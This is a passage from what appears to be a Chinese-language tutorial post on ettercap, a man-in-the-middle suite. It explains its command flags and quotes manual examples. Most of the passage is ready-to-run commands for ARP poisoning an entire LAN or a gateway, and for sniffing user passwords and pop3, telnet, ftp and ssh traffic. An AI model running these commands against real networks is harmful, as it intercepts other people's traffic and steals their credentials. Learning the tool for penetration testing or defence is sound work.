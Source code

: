 解释一下，就是说这是一个很牛逼的中间人攻击套件，嗅探监听修改过滤分析内网数据包等等.

## 常见用法
废话终于说完了，到正题了，来看看怎么个牛逼法、

``` bash
ettercap -Tq -i en0 -M arp /// ///
```
解释一下

``` comment
-T text  文本模式，对应的另外一个-G，图形界面模式(不推荐，体验不好，给你两个理由，一个是可能会卡死，第二个，没有命令行酷，哈哈),当然还有一个C，终端里的界面比图形化好不少。
-q 安静模式，不然很多没必要的信息会被输出。可以用空格切换。
-i 指定网卡接口
-M MITM attack 中间人攻击，就是干这个得，选项(arp|icmp|dhcp|port|ndp)等等，常用的就是arp咯
-P 加载插件
-F 加载过滤器自带了一些，可以自己写，这才是杀手锏
///  分割mac, ip, port  要欺骗的ip，不写就是所有的
```
### more-还是文档说的好，自行参考咯
``` bash
   ettercap -Tp

          Use the console interface and do not put the interface in promisc mode. You will see only your traffic.

   ettercap -Tzq

          Use  the  console  interface,  do not ARP scan the net and be quiet. The packet content will not be displayed, but user and passwords, as well as other messages, will be displayed.

   ettercap -T -j /tmp/victims -M arp /10.0.0.1-7/ /10.0.0.10-20/

          Will load the hosts list from /tmp/victims and perform an ARP poisoning attack against the two target. The list will be joined with the target and the resulting list  is used for ARP poisoning.

   ettercap -T -M arp // //

          Perform the ARP poisoning attack against all the hosts in the LAN. BE CAREFUL !!

   ettercap -T -M arp:remote /192.168.1.1/ /192.168.1.2-10/

          Perform  the  ARP  poisoning against the gateway and the host in the lan between 2 and 10. The 'remote' option is needed to be able to sniff the remote traffic the hosts make through the gateway.

   ettercap -Tzq //110

          Sniff only the pop3 protocol from every hosts.

   ettercap -Tzq /10.0.0.1/21,22,23

          Sniff telnet, ftp and ssh connections to 10.0.0.1.

   ettercap -P list

          Prints the list of all available plugins
```
